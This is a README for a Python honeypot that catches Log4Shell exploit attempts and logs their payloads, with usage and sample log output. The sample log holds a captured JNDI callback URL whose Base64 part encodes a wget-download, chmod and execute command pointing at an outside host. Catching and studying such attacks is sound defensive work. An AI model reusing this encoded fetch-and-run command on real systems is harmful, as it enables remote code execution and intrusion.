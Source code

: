 # log4j_catcher

Log4j exploit catcher, detect Log4Shell exploits and try to get payloads.
This is a basic python server that listen on a port and logs informations when a wild log4j exploit appears

## Running

```
python3 detector.py [port]
```

Example:
```
$ sudo python3 detector.py 80
2021-12-10 23:39:59,951 INFO:Incoming connection from ('1.2.3.4', 51512)  
2021-12-10 23:40:28,997 INFO:Incoming connection from ('1.2.3.4', 37532)   
2021-12-11 03:53:36,729 INFO:Found payload jndi from ('45.137.21.9', 55378)                        
2021-12-11 03:53:36,729 INFO:URL: 45.137.21.9:1389/Basic/Command/Base64/d2dldCBodHRwOi8vNjIuMjEwLjEzMC4yNTAvbGguc2g7Y2htb2QgK3ggbGguc2g7Li9saC5zaA==
```
